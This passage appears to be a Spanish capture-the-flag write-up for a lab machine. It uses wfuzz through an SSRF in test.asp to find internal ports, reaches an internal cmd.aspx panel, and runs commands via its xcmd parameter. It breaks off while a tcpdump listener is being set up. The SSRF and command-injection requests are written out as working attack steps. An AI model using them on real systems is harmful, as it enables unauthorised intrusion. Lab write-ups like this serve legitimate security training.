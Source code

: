 
### Descubrimiento de los puertos abiertos con WFUZZ {-}

Wfuzz permite hacer rangos de numeros con el parametro `-z`

```bash
wfuzz -c -t 200 --hc=404 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Como nunca va a existir un codigo de estado 404, (porque el recurso existe), wfuzz no va a reportar como validas todas
las requests. Hay que lanzar una vez y occultar las palabra que son de 89

```bash
wfuzz -c -t 200 --hc=404 --hw=89 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Aqui vemos que solo el puerto 80 esta abierto.



Esto funciona. Pero no vemos en la web el output del comando. Solo vemos el codigo de estado (0 si el comando a funcionado, 1 si no a funcionado)

## Evaluacion de vulnerabilidades {-}

### Analizamos la web interna por el puerto privado 80 {-}

Aqui se puede ver un panel de administrador donde parece que podamos ejecutar comandos a nivel de sistema. Si pinchamos el link
no nos va a dejar porque nos lleva a una url interna `127.0.0.1/cmd.aspx`. Pero si la introducimos directamente en 

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx
```

functiona.

Si le lanzamos un whoami, nos redirige en una url un poco turbia. Analizando el codigo fuente vemos que la peticion es get con el
nombre xcmd.

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=whoami
```

### Controlamos si tenemos conectividad con la maquina de atacante {-}

1. Nos ponemos en escucha por trasa ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. en la web
